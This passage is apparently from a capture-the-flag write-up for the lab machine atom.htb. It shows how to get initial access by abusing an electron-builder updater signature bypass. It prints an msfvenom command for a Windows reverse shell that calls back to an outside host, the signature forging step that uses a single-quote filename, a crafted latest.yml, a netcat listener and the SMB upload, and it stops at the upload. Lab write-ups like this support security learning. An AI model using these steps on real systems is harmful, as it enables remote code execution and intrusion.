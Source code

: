 After a quick google, we get a blog describing about RCE via electron-builder updater. Read the blog to understand how this vulnerability will used in our condition.

\## Vulnerability link

[https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)

# Initial Access

Let’s build our reverse executable via msfvenom and name it as up'date.exe

\## Create reverse shell

```
⛩\> msfvenom -p windows/x64/shell_reverse_tcp -f exe lhost=10.10.14.42 lport=1234 -o "up'date.exe"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: up'date
```

Now we need to generate signature hash of this up’date.exe. This can be easily achieved by using a filename containing a single quote and then by recalculating the file hash to match the attacker-provided binary.

\## Create signature

```
⛩\> shasum -a 512 up\'date.exe | cut -d " " -f1 | xxd -r -p | base64
jAUiMEfUaQSD6tvtKmjG4kk9fJo/lyZBbP0/16id9lPwdyqCw5rKvbvJaCbmLE/1QMukQ8WBn/hDdL81I/UOqQ==
```

Now create a YML file and add the details of the file name, signature and version.

\## Create yml file

```
⛩\> cat latest.yml
version: 1.0.1
path: up'date.exe
sha512: jAUiMEfUaQSD6tvtKmjG4kk9fJo/lyZBbP0/16id9lPwdyqCw5rKvbvJaCbmLE/1QMukQ8WBn/hDdL81I/UOqQ==
```

\## Set netcat listener

```
⛩\> nc -lvnp 1234
listening on [any] 1234 ...
```

Now we need to upload executable and yml file to SMB client folder.

\## Upload reverse shell and yml

```
⛩\> smbclient //atom.htb/Software_updates -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Apr 20 02:52:08 2021
  ..                                  D        0  Tue Apr 20 02:52:08 2021
  client1                             D        0  Tue Apr 20 02:52:08 2021
  client2                             D        0  Tue Apr 20 02:52:08 2021
  client3                             D        0  Tue Apr 20 02:52:08 2021
  UAT_Testing_Procedures.pdf          A    35202  Fri Apr  9 07:18:08 2021

        4413951 blocks of size 4096. 1364219 blocks available
smb: \> cd client1
smb: \client1\> put up'date.exe
```